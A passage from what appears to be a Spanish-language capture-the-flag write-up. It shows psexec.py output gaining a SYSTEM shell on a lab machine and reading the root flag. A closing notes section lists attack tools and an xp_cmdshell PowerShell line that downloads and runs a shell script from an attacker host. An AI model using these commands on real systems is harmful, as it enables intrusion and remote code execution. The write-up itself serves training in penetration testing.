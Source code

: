 ```bash
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file ppQcueTy.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service EPRJ on 10.10.10.27.....
[*] Starting service EPRJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

"C:\Users\sql_svc\Desktop>whoami
nt authority\system "
```
Obtendriamos una shell como administrador en la maquina victima.
Procedemos a sacar la flag del administrador o root.txt

```bash
"C:\Users\Administrator\Desktop>type root*    
b91ccec3305e98240082d4474b------    "
```
APRENDIDO:
```bash
 Uso de las herramientas:
 "smbclient    "
 "mssqlclient.py   "
 "psexec.py   "
 "Forma de injeccion de comandos despues de setear la configuracion de la opcion xp_cmdshell en Mysql     "
  xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.5/shell.ps1\");"   
```
